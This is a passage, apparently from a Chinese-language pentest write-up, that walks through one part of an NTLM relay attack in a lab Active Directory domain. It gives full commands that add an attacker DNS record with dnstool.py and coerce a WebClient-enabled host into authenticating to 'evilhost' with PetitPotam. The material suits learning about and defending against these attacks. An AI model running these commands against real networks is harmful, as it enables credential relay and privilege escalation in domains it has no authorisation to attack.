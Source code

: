 为了能让开启了 WebClient 服务的客户端成功访问到了我们，我们需要通过已获取的域用户权限，在域内为攻击机添加一个 DNS 记录。因为在默认情况下，WebClient 仅对本地内部网（Local Intranet）或受信任的站点（Trusted Sites）列表中的目标使用 “默认凭据” 进行身份验证。这里我们可以使用 Dirk-jan Mollema（[@dirkjanm](https://twitter.com/_dirkjan)）的 [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) 工具来完成，如下图所示。

```bash
python3 dnstool.py -u pentest.com\\Marcus -p Marcus\@123 -r evilhost.pentest.com -d 172.26.10.134 --action add dc01.pentest.com
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220514235033017.png)

然后，我们可以通过 PetitPotam 强制开启了 WebClient 服务的客户端连接到攻击机的 80 端口，如下图所示。

```bash
python3 PetitPotam.py -d pentest.com -u marcus -p Marcus\@123 evilhost@80/webdav 172.26.10.21
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515013843612.png)

